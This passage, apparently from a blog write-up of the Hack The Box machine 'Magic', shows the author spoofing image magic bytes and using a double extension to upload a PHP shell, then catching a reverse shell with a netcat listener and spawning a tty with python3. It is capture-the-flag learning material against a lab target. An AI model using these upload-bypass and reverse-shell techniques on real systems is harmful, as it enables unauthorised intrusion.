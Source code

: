 Alright it seems like it is doing a check for png,jpeg… images. let’s try to fool the server by adding `ÿØÿÛ` as the first line of the shell, here we are trying to manipulate the file header so server accept it as image.

{% include image.html path="documentation/magicuploadfailone.webp"
path-detail="documentation/magicuploadfailone.webp"
alt="HTB Magic" %}

we still get the same error, renaming the file from `shell.php` to `shell.php.jpeg` and uploading it to the server. 

{% include image.html path="documentation/magicuploadworked.webp"
path-detail="documentation/magicuploadworked.webp"
alt="HTB Magic" %}

Alright.. Opening up a netcat listener on our local machine `rlwrap nc -lvnp 9889`and navigating to `http://10.10.10.185/images/uploads/shell.php.jpeg` and the page starts endless loading, which is good sign, looking at our nc listner and looks like we got a shell on the server. ~~Trust me I wasn’t trying to sound like Ippsec.~~

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Magic]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.10.185] 34046
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:39:37 up 1 day,  9:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ whoami
www-data
$ 
{% endhighlight %} 

### Getting User

Spawing a tty shell, I like to work with a tty shell so [here](https://netsec.ws/?p=337) is a cheatlist you guys can refer to get a tty shell.

{% highlight bash %}
$ python -c 'import pty; pty.spawn("/bin/sh")'
/bin/sh: 2: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
export TERM=xterm
$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swapfile  usr  vmlinuz.old
$ 
{% endhighlight %} 
